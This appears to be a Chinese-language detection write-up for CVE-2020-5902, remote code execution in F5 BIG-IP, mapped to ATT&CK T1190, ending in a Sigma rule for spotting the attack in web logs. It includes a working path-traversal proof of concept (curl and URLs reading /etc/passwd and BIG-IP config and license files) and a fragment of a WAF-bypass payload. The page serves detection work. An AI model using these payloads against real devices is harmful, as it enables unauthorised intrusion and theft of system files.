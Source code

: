 # T1190-CVE-2020-5902-F5_BIG-IP-远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

F5 BIG-IP 是美国F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。在 F5 BIG-IP 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

未授权的远程攻击者通过向该页面发送特制的请求包，可以造成任意Java 代码执行。进而控制 F5 BIG-IP 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。

漏洞影响范围：

11.6.x, 12.1.x, 13.1.x, 14.1.x, 15.0.x, 15.1.x

## 检测日志

HTTP.log

## 测试复现

漏洞利用建议参考：

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>

## 测试留痕

暂无实测，故无留痕。直接引用漏洞利用建议参考中的案例数据进行特征提取。

### 文件读取POC

```yml
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### 通过java反序列化绕过waf的payload

```yml
String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/"; #截取部分内容
```

## 检测规则/思路

### sigma规则

```yml
title: CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞
status: experimental
references:
    - https://blog.csdn.net/wuyou1995/article/details/107170186/
    - https://www.cnblogs.com/potatsoSec/p/13263806.html
author: Florian Roth
translator: 12306Bro
date: 2020/07/05
logsource:
    category: webserver
detection:
    selection_base:
        c-uri|contains: 
            - '/tmui/'
            - '/hsqldb'
    selection_traversal:
        c-uri|contains:
            - '..;/'
            - '.jsp/..'
    condition: selection_base and selection_traversal
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
tags:
    - attack.initial_access
    - attack.t1190
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>